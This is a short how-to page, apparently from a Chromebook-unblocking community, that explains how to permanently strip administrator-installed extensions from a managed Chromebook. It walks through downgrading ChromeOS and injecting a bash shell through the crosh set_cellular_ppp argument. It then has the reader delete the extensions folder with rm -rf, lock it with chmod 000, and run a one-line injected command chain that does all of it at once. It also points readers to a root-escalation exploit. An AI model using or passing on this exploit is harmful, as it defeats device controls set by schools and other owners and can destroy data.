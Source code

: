 ```yaml
---
title: remove-extensions-crosh
---
```


-e 
Permanently Remove Extensions (Past v106)

This exploit details another way to permanently delete extensions. Once done, you can update or restart your chromebook and the extensions will stay gone until you powerwash.

You need a usb for downgrading, and rudimentary knowledge of bash is recommended.

Instructions:
1. Downgrade to any version below 103. 

2. Hit ctrl+alt+t (chrome-untrusted://crosh) to open a crosh window.
-> If it’s blocked by extensions, use LTBEEF. 
-> If it’s policy blocked (“The person who set up this computer has chosen to block this site”) you can try downgrading to a version below 90, where crosh had a different URL.

3. Type in set_cellular_ppp \';bash;exit;\' and hit enter.
-> You now have access to a bash shell, logged in as chronos. More information about the permissions of this shell is at the bottom.

4. Type rm -rf ~/Extensions/*. 
-> THIS WILL BREAK EVERY EXTENSION ON YOUR CHROMEBOOK. If there are extensions you want to keep, they can be selectively removed by ID.

5. Run chmod 000 ~/Extensions. 
-> This marks the extension folder as read only, stopping it from updating in the future or any new extensions from being installed.

You can now restart chrome, allowing it to update to the latest version. 
Once rebooted onto the latest version, all removed extensions will have the default icon and won’t function at all.

You can also run set_cellular_ppp \'chmod 777 ~/Extensions;rm -rf ~/Extensions;mkdir ~/Extensions;chmod 000 ~/Extensions;echo done;exit\' in crosh to do it all in one step.

- https://discord.com/channels/419123358698045453/1033121753263771709 -

If you would like to have Root Access, do Root Escalation.
-> Root Escalation can allow you to run developer mode content, enable developer mode and bypass pretty much everything with one exploit. It will require the downgrade methods.
-> It has a lot of branches so its Kajig discussion has been linked. Check the pins in the TN Discord server.

- https://discord.com/channels/419123358698045453/1033537020854800434 -

Credits:
CoolElectronics/velzie
https://github.com/titaniumnetwork-dev/Oxide-Docs/blob/master/docs/kajigs.mdx
Titanium Network
